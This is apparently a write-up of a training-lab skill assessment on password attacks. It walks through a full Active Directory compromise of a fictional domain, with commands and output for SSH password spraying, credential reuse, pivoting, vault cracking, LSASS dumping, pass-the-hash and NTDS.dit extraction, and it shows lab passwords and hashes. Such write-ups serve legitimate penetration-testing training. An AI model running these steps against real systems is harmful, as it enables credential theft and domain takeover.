

Skill Assessment - Password Attacks
Summary
This Hard assessment is a full Active Directory compromise driven entirely by password attacks. Starting from a single piece of OSINT — a name and a reused personal password — the chain moves through SSH credential spraying, network pivoting through a DMZ host, cracking a Password Safe vault, dumping LSASS for NTLM hashes, pass-the-hash lateral movement, and finally a DCSync-style NTDS.dit extraction on the Domain Controller.
External host: DMZ01 (10.129.234.116)
Internal subnet: 172.16.119.0/24 (JUMP01, FILE01, DC01)
Domain: nexura.htb
Key Skills: Credential reuse, ProxyChains pivoting, LSASS dumping, Pass-the-Hash, NTDS extraction
Betty Jayde works at Nexura LLC. She reuses the password Texas123!@# across multiple sites, and may reuse it at work.
Foothold — Credential Reuse
Only SSH is exposed on the external host:
nmap -Pn -sVC -T4 --min-rate 1000 10.129.234.116 -p-
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 UbuntuWe have a password but not the exact username format. username-anarchy generates likely permutations from the full name:
./username-anarchy Betty Jayde > bet.txtSpraying the single known password across that username list with Hydra lands a hit:
hydra -L bet.txt -p 'Texas123!@#' ssh://10.129.234.116
[22][ssh] host: 10.129.234.116 login: jbetty password: Texas123!@#Username resolved to jbetty. Inspecting ~/.bash_history reveals the next credential in plaintext: sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01
Pivoting into the Internal Network
The internal hosts (JUMP01, FILE01, DC01) sit on a private subnet reachable only through DMZ01's second interface. ProxyChains alone was slow and produced false positives, so a static Nmap binary was uploaded to the pivot host to scan from the inside:
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
chmod u+x nmap
scp nmap jbetty@10.129.234.116:~/Scanning the internal hosts identifies a Domain Controller (172.16.119.11) and file/jump servers. NetExec over ProxyChains reveals the domain:
sudo proxychains4 -q netexec smb 172.16.119.10
SMB 172.16.119.10 445 FILE01 (domain:nexura.htb)Add the resolved hosts to /etc/hosts, then validate hwilliam's credentials across services — WinRM on JUMP01 returns Pwn3d!:
proxychains4 -q netexec winrm 172.16.119.7 -u hwilliam -p dealer-screwed-gym1
WINRM 172.16.119.7 5985 JUMP01 [+] nexura.htb\hwilliam:... (Pwn3d!)Password Vault Cracking
Enumerating users on DC01 and browsing FILE01's shares with impacket-smbclient uncovers an HR archive containing an old Password Safe vault (Employee-Passwords_OLD.psafe3). It is cracked offline with John after converting it to a hash:
pwsafe2john Employee-Passwords_OLD.psafe3 > password.txt
john -w=/usr/share/wordlists/rockyou.txt password.txt
michaeljackson (Employee-Passwords_OLD)
Opening the vault reveals working-account passwords:
bdavid : caramel-cigars-reply1
stom : fails-nibble-disturb4
hwilliam : warned-wobble-occur8LSASS Dump & Pass-the-Hash
bdavid can RDP into JUMP01. From an interactive session, LSASS is dumped via Task Manager (right-click Local Security Authority Process → create dump file) and copied back over the mapped drive:
copy C:\Users\bdavid\AppData\Local\Temp\lsass.DMP \\tsclient\sharepypykatz parses the dump offline and yields the NT hash for stom:
pypykatz lsa minidump lsass.DMP
== MSV ==
Username: stom
Domain: NEXURA
NT: 21ea958524cfd9a7791737f8d2f764faThe hash authenticates against DC01 via pass-the-hash — stom returns Pwn3d!:
proxychains4 netexec smb 172.16.119.11 -u stom \
-H 21ea958524cfd9a7791737f8d2f764fa -d nexura.htb
SMB 172.16.119.11 445 DC01 [+] nexura.htb\stom:... (Pwn3d!)A pass-the-hash RDP session fails until Restricted Admin Mode is enabled. This can be flipped remotely through Evil-WinRM before connecting: reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
Domain Admin & NTDS.dit
After connecting via xfreerdp with pass-the-hash, group membership confirms stom is a member of Domain Admins:
With DA rights, create a shadow copy of C: to safely extract the locked NTDS database and the SYSTEM hive:
vssadmin CREATE SHADOW /For=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit \\tsclient\share
reg.exe save hklm\system C:\system.save
copy C:\system.save \\tsclient\shareFinally, impacket-secretsdump decrypts the domain hashes offline:
impacket-secretsdump -ntds ntds.dit -system system.save LOCAL
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:36...d6d23:::The complete chain: OSINT password → jbetty (SSH) → hwilliam (bash_history) → pivot → psafe3 vault → bdavid → LSASS → stom hash → PtH to DC01 → Domain Admin → NTDS.dit. Every step was driven by a password attack — spraying, cracking, dumping, or reusing.
🎯 Key Takeaways
- Password reuse is the whole chain: one reused personal password bootstrapped a full domain compromise.
- username-anarchy: when you know the password but not the username format, generate permutations and spray.
- Static binaries over ProxyChains: uploading a static Nmap to the pivot beats slow, false-positive-prone proxied scans.
- bash_history & old vaults: plaintext and forgotten credential stores are goldmines — always check them.
- LSASS → PtH: a memory dump plus pass-the-hash moves laterally without ever cracking a password.
- Restricted Admin Mode: can block PtH RDP, but is remotely toggleable with sufficient rights.
- Shadow copy for NTDS: VSS safely extracts the locked NTDS.dit for offline domain dumping.
Tools Used
nmap·username-anarchy·hydraproxychains4·netexec·impacket-smbclientpwsafe2john/john·pypykatzevil-winrm·xfreerdp·impacket-secretsdump